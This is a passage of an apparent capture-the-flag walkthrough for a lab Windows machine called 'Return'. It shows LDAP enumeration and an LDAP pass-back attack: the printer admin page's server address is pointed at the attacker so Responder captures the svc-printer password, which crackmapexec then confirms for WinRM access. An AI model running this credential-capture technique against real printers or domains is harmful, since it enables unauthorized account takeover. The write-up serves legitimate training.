 ### Port 389

- LDAP
- Need credentials

```bash
┌──(kali㉿kali)-[~/machines/windows/return/enumeration]
└─$ ldapsearch -x -H ldap://10.10.11.108 -b "DC=return,DC=local"     
# extended LDIF
#
# LDAPv3
# base <DC=return,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A37, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

In the web page  we could try to change the server address to point to us and setup **responder** to see if we capture something.

- Server Address → 10.10.14.12

 

```bash
[LDAP] Cleartext Client   : 10.10.11.108
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

Indeed we have receive credentials for user svc-printer.

- `svc-printer:1edFg43012!!`

```bash
┌──(kali㉿kali)-[~]
└─$ crackmapexec winrm 10.10.11.108 -u 'svc-printer'  -p '1edFg43012!!'         
SMB         10.10.11.108    5985   PRINTER          [*] Windows 10.0 Build 17763 (name:PRINTER) (domain:return.local)
HTTP        10.10.11.108    5985   PRINTER          [*] http://10.10.11.108:5985/wsman
WINRM       10.10.11.108    5985   PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

We can use them to connect to the machine.

# Foothold
